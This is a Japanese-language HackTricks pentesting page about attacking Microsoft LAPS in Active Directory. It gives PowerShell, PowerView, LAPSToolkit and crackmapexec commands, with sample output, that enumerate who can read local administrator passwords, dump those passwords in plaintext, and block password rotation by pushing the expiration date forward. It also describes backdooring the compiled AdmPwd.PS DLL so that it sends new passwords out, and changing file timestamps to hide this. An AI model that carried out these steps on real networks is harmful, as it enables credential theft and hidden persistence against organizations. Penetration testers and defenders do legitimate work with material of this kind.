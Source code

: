 # LAPS

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**してみたいですか？または**最新バージョンのPEASSを入手したり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* [**公式PEASS＆HackTricksスウェグ**](https://peass.creator-spring.com)を手に入れる
* **[💬](https://emojipedia.org/speech-balloon/) Discordグループ**に**参加**するか、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **ハッキングトリックを共有するために、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)**にPRを提出してください。

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## 基本情報

ローカル管理者パスワードソリューション（LAPS）は、**管理者パスワード**を**一意でランダムで頻繁に変更された**ものに設定し、ドメインに参加しているコンピュータに適用するためのツールです。これらのパスワードは、Active Directory内に安全に保存され、アクセス制御リスト（ACL）を介して権限が付与されたユーザのみがアクセスできます。クライアントからサーバへのパスワードの送信のセキュリティは、**Kerberosバージョン5**と**Advanced Encryption Standard（AES）**の使用によって保証されています。

LAPSの実装により、ドメインのコンピュータオブジェクトには、**`ms-mcs-AdmPwd`**と**`ms-mcs-AdmPwdExpirationTime`**という2つの新しい属性が追加されます。これらの属性は、それぞれ**平文の管理者パスワード**と**その有効期限**を保存します。

### アクティブ化されているかどうかを確認
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPSパスワードアクセス

`\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` から **LAPSポリシーの生データをダウンロード**し、次に[**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) パッケージから **`Parse-PolFile`** を使用してこのファイルを人間が読める形式に変換できます。

さらに、**ネイティブLAPS PowerShellコマンドレット**は、アクセス権を持つマシンにインストールされている場合に使用できます。
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView**を使用して、**誰がパスワードを読み取ることができ、それを読み取ることができるか**も調べることができます。
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)は、複数の機能を備えたLAPSの列挙を容易にします。\
そのうちの1つは、**LAPSが有効になっているすべてのコンピューター**の**`ExtendedRights`**を解析することです。これにより、**LAPSパスワードを読む権限を特定のグループに委任**している**グループ**が表示されます。\
**ドメインにコンピューターを参加させたアカウント**は、そのホストに対して`All Extended Rights`を受け取り、この権利により**パスワードを読む能力**が与えられます。列挙により、ユーザーアカウントがホスト上のLAPSパスワードを読むことができることが示される場合があります。これにより、LAPSパスワードを読むことができる特定のADユーザーを**特定する**のに役立ちます。
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Crackmapexecを使用してLAPSパスワードをダンプする**
PowerShellへのアクセス権がない場合、LDAPを介してリモートでこの特権を悪用することができます
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
## **LAPSの永続性**

### **有効期限日**

一度管理者権限を取得すると、**パスワードを取得**し、**有効期限日を将来に設定**することで、**マシンがパスワードを更新するのを防ぐ**ことが可能です。
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
**管理者**が**`Reset-AdmPwdPassword`**コマンドレットを使用するか、LAPS GPOで**ポリシーで必要な以上のパスワード有効期限を許可しない**が有効になっている場合、パスワードはリセットされます。
{% endhint %}

### バックドア

LAPSの元のソースコードは[こちら](https://github.com/GreyCorbel/admpwd)で見つけることができます。そのため、コード内（たとえば`Main/AdmPwd.PS/Main.cs`の`Get-AdmPwdPassword`メソッド内）にバックドアを設置して、新しいパスワードを何らかの方法で**外部に送信したり、どこかに保存**することが可能です。

その後、新しい`AdmPwd.PS.dll`をコンパイルして、`C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll`にアップロードします（および変更日時を変更します）。

## 参考文献
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つけます
* [**公式PEASS＆HackTricksスウェグ**](https://peass.creator-spring.com)を手に入れます
* **💬**[**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**をフォロー**してください。
* **ハッキングトリックを共有するために、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)にPRを提出**してください。

</details>
